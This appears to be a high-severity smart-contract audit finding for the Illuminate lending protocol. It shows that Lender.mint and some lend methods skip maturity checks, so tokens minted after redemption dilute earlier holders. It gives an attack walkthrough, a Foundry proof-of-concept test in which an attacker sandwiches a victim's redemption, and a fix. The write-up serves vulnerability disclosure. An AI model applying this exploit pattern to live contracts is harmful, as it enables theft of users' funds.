 kenzo

high

# Attacker can steal funds from redemptions by minting matured PTs

## Summary
Some of the lending/minting functions do not check if the principal pulled or iPT minted have already matured.
This can lead to bad accounting and even allows an attacker to steal funds when user try to redeem their iPTs.

## Vulnerability Detail
In the `mint` method, `Lender` pulls protocol PTs from the user and mints iPTs in return.
**It does not check whether the supplied PT or the iPT has matured.**
Similarly, the `lend` methods, including the Pendle lend method which uses SushiSwap, do not check whether the iPT being minted has matured.

Using these, a user or attacker can mint additional iPTs *after the protocol PTs have already been redeemed by the Redeemer*, thereby creating an **inconsistency between iPT's totalSupply and Redeemer's holdings array**. This will lead to loss for users trying to redeem at this state.
This can happen both accidently or maliciously.

## Impact
Loss of user funds.

- Let's say Alice and Malaclypse hold each 100 YieldPTs.
- Before maturity, Alice mints 100 iPTs using her YPTs. iPT totalSupply is 100.
- At maturity, somebody redeems Yield market using `Redeemer`.
- After that, Malaclypse uses `Lender.mint` to mint 100 iPTs from his YPTs.
- **At this point, the iPT totalSupply is 200, but the Redeemer `holdings` array contains only 100 underlying redeemed.**
- Now Alice tries to redeem her iPTs. Since she owns 100/200 of the iPTs, she will get half of the holdings array - 50 underlying - but all of her iPTs have been burned. Therefore she lost funds.
- Now if Malaclypse redeems Yield market again, and then redeems his iPTs, since he owns all of the supply he will get 150 underlying.

I programmed such a POC and attached below.

## Code Snippet
The mint [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270) doesn't check if the market has matured:
```solidity
    function mint(uint8 p, address u, uint256 m, uint256 a) external unpaused(u, m, p) returns (bool) {
        address principal = IMarketPlace(marketPlace).token(u, m, p);
        Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);
        IERC5095(principalToken(u, m)).authMint(msg.sender, a);
        emit Mint(p, u, m, a);
        return true;
    }
```
Therefore a user/attacker can mint tokens iPTs through matured markets, and create the abovementioned loss/attack. See POC.

Additionally, the `lend` methods do not check if a market has matured.
This presents another option to execute this attack.
Some of the `lend` functions will revert if trying to buy PTs after maturity, but not all:
[Pendle's `lend`](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L521) uses a SushiSwap pool, which always allows swapping. Since this method doesn't check that the the supplied `p` is actually Pendle, a user can create a SushiSwap pool for a different protocol (eg. Yield), and pass this protocol as `p`. The `lend` function will continue to swap the supplied underlying with the PTs from the user-created pool, thus minting iPTs to the attacker, which will perform the attack. (The attacker will then withdraw all liquidity from the pool and lose no funds.)

## Proof of Concept
I created the following POC to show such an attack.
In it Alice simply tries to redeem her tokens, but Malaclypse sandwiches her redemption and steals her funds.
The final assertion in the test asserts that Alice has her starting balance back - but it fails, since Mal stole it.
Add the test to fork/Redeemer.t.sol.
```solidity
function testTryToStealUsingMaturedPTs() public {
        // deploy market
        deployMarket(Contracts.USDC, 0);

        // give redeemer underlying tokens
        deal(Contracts.USDC, address(r), startingBalance);

        // update holdings by executing another redeem
        address principalToken = Contracts.YIELD_TOKEN;
        {
            

            // give lender principal tokens
            deal(principalToken, address(l), startingBalance);

            // approve lender to transfer principal tokens
            vm.startPrank(address(l));
            IERC20(principalToken).approve(address(r), startingBalance*2);
            vm.stopPrank();

            vm.startPrank(msg.sender);

            // execute the redemption
            r.redeem(2, Contracts.USDC, maturity);
            vm.stopPrank();
        }
        // give user illuminate tokens
        address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
        deal(illuminateToken, msg.sender, startingBalance, true);

        // Set up attacker with matured YieldPTs
        address attacker = address(5);
        deal(principalToken, attacker, startingBalance);

        // At this point, Yield has already been redeemed.
        // The legit user now tries to redeem his iPTs, but attacker sandwiches him and steals his funds.

        // Attacker: mint iPTs for YieldPTs through Lender
        vm.startPrank(attacker);
        IERC20(principalToken).approve(address(l), startingBalance);
        l.mint(2, Contracts.USDC, maturity, startingBalance);
        vm.stopPrank();
        // Original user redeems his iPTs - will get less underlying as accounting is inconsistent
        vm.prank(msg.sender);
        r.redeem(Contracts.USDC, maturity);
        // Now attacker redeems the market again and then redeems his iPTs
        vm.startPrank(attacker);
        r.redeem(2, Contracts.USDC, maturity);
        r.redeem(Contracts.USDC, maturity);

        // Original user should have his original balance back - but he doesn't, as attacker siphoned it. Assertion will fail.
        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance);
    }
```

## Tool used
Manual Review

## Recommendation
In Lender `mint`, when pulling PTs from the user, check that these specific protocol PTs have not matured.
Similarly in the `lend` methods, check that the specific protocol's PT has not matured. (Some of the protocols already do that for you, but not all).

Note that this issue also brings to mind the possible problem with users *redeeming their iPTs* before all protocol redemptions have occurred. But I believe that can be considered a different issue. This current issue is about needing to make sure users can not accidently or maliciously *mint iPTs* that will *dilute* the redemption value for previous iPT holders.